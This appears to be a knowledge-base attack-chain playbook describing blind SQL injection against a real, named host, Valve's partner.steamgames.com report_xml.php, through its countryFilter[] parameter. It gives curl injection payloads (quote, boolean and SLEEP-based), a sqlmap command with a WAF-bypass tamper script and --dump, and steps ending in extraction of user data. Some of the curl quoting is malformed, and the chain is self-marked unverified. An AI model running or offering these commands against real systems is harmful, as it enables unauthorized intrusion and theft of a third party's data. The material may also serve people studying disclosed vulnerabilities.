

---
tags:
  - sqli
  - blind-sqli
  - waf-bypass
  - php
  - database-exfiltration
type: attack_chain
tools:
  - '[[tools/sqlmap]]'
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploiting-Blind-SQL-Injection-in-Country-Filter]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T03:15:10.257Z'
description: >-
  Exploitation of a blind SQL injection vulnerability in the countryFilter[]
  parameter of Valve's report_xml.php endpoint, allowing unauthorized database
  data extraction while bypassing Akamai WAF.
skill_level: intermediate
impact_level: high
id: 29da025e-7eb5-420f-bbf0-2e33bcddb30b
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Blind SQL Injection in Valve Report XML Endpoint via Country Filter Parameter

Multi-stage attack chain demonstrating the exploitation of a blind SQL injection in Valve's partner reporting page to extract sensitive database information.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/sqlmap]]

### Target Environment

- Web platform with PHP backend
- SQL database (e.g., MySQL)
- Access to Valve's partner reporting page endpoint

### Initial Access Requirements

- Valid session or authentication to access the reporting page
- Network access to the public-facing application
- No prior privileged access needed

## Detailed Attack Procedures

### Step 1: Endpoint Identification

procedure: [[procedures/Exploiting-Blind-SQL-Injection-in-Country-Filter]]

**Objective**: Locate the vulnerable report_xml.php endpoint and identify the countryFilter[] parameter for manipulation.

**Instructions**: Navigate to Valve's partner reporting page and inspect the request to the report_xml.php endpoint. Use browser developer tools or [[tools/Burp-Suite]] to capture the HTTP request containing the countryFilter[] parameter.

For example, intercept the request and note the parameter in the POST or GET data:

```http
POST /report_xml.php HTTP/1.1
Host: partner.steamgames.com
Content-Type: application/x-www-form-urlencoded

countryFilter[]=US&other_params=...
```

**Expected Output**: Captured request showing the countryFilter[] array parameter.

**Success Indicators**:
- Endpoint URL confirmed: https://partner.steamgames.com/report_xml.php
- Parameter identified as countryFilter[]

### Step 2: SQL Injection Testing

procedure: [[procedures/Exploiting-Blind-SQL-Injection-in-Country-Filter]]

**Objective**: Test the countryFilter[] parameter for SQL injection vulnerability by injecting payloads to detect injection points.

**Instructions**: Use [[commands/curl-test-sqli]] to send a basic SQL injection payload, such as appending a single quote to trigger errors or boolean conditions for blind testing.

```bash
curl -X POST 'https://partner.steamgames.com/report_xml.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'countryFilter[]=US\' '
```

If no error is visible (blind SQLi), proceed to boolean-based testing with [[commands/curl-boolean-sqli]]:

```bash
curl -X POST 'https://partner.steamgames.com/report_xml.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'countryFilter[]=US' AND 1=1-- '
```

Compare responses to confirm injection.

**Expected Output**: Different response lengths or contents indicating true/false conditions.

**Success Indicators**:
- Response variation detected on payload injection
- No direct error but behavioral change observed

### Step 3: WAF Bypass and Data Extraction

procedure: [[procedures/Exploiting-Blind-SQL-Injection-in-Country-Filter]]

**Objective**: Bypass the Akamai WAF and extract sensitive SQL data using blind techniques.

**Instructions**: Craft payloads to evade WAF, such as using comments or encodings. Use [[tools/sqlmap]] with tamper scripts for bypass:

```bash
sqlmap -u 'https://partner.steamgames.com/report_xml.php' --data='countryFilter[]=US' --tamper=space2comment --dbms=mysql --technique=B --dump
```

Alternatively, manual extraction with [[commands/curl-time-based-sqli]] for time delays:

```bash
curl -X POST 'https://partner.steamgames.com/report_xml.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'countryFilter[]=US' AND IF(1=1, SLEEP(5), 0)-- '
```

Iterate to extract data like database names, tables, and records.

**Expected Output**: Delayed responses confirming true conditions; eventual data dump.

**Success Indicators**:
- WAF bypassed without blocks
- Sensitive data (e.g., user info) extracted from database

## Attack Chain Summary

### Key Achievements

1. Identified vulnerable parameter in report_xml.php
2. Confirmed blind SQLi and bypassed Akamai WAF
3. Extracted sensitive database information, demonstrating critical impact

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
